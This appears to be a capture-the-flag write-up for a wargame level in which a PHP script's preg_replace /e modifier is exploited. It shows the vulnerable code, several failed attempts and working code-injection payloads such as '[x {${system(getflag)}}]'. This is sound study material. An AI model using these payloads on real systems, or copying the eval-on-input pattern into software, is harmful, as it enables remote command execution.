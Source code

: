 # level06

## php file
"level06.php":
```
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

Let's beautify it:
```
#!/usr/bin/php

<?php
  function ft_second($m)
  {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
  }

  function ft_first($y, $z)
  {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "ft_second(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
  }

  $result = ft_first($argv[1], $argv[2]);

  print $result;
?>
```

## Php code
We can read the above php code from bottom to top. We call this f_first() function with argv[1] and argv[2] as arguments and print it's result.  
In the "ft_first()" function, we only use the $y and never use the $z.  
We get the contents with "file_get_contents()", so we know that we should provide a file route with the argv[1].  
Then we do the replacement with preg_replace() function and regex.  

## preg_replace and regex
When searching for "preg_replace vulnerbility" we found a possible exploit wiht the "e" modifier. This is a depricated function in php so this also means that the system is using an old version of php.    
It can basicly take the maching input and execute it instead of treating it as plain text.  
So we can try to create a file. Write some php code inside and try to make this script execute it.  

## Attempts
I tried to create a file in /tmp folder as before and write a string mach the pattern(`"/(\[x (.*)\])/e"`).  
So the command will be like: `echo "[x whatever]" > /tmp/getflag`.  
Difficult to make php code execute the function. They are all being printed out as string or spit out some syntax error:  
- '[x system(getflag)]' -> print as string
- '[x ${system(getflag)}]' -> syntax error
- '[x {system(getflag)}]' -> print as string
- '[x ; system(getflag)]' -> print as string
... and so on...

Until I found this: [Complex(curly) syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex)  

- '[x {${system(getflag)}}]' finaly solve the problem.
- or '[x {${`getflag`}}]'

## Takeaway
- regex
- php syntaxe
- php Complex(curly) syntax
- preg_replace vulnerbility(deprecated)


